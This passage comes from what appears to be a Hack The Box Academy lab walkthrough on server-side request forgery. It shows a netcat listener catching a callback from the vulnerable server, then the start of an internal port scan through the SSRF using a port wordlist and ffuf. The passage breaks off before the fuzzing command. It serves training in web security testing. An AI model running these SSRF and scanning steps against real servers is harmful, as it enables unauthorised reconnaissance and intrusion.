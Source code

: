 ```shell
nc -lvnp 8000
```

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ nc -lvnp 8000

listening on [any] 8000 ...
```

Then, students need to subsequently modify the URL seen in the POST request, altering it to reflect the HTTP response back to the netcat listener running on their attack host:

![[HTB Solutions/CBBH/z. images/e0108309bb1e78e0e9df956b5ab40cf2_MD5.webp]]

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ nc -lvnp 8000

UNKNOWN) [10.129.105.163] 44802
GET /ssrf HTTP/1.1
ost: 10.10.14.225:8000
Accept: */*
```

After checking the netcat listener, students will receive a connection from the server, thus confirming SSRF.

Now, students can use the SSRF vulnerability to conduct a port scan of the system to enumerate running services. To achieve this, students need to be able to infer whether a port is open (based on the response to our SSRF payload).

By supplying a port number that we assume is closed (such as `81`), the response contains an error message:

![[HTB Solutions/CBBH/z. images/74d3fa1a518c4d8896bc84405d4686c0_MD5.jpg]]

This enables students to conduct an internal port scan of the web server through the SSRF vulnerability using a fuzzing tool such as `ffuf`.

Students must first create a wordlist of the ports to scan. In this case, we'll use the first 10,000 ports:

Code: shell

```shell
seq 1 10000 > ports.txt
```

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ seq 1 10000 > ports.txt
```

Afterward, students may fuzz all open ports by filtering out responses containing the error message identified earlier.

Code: shell
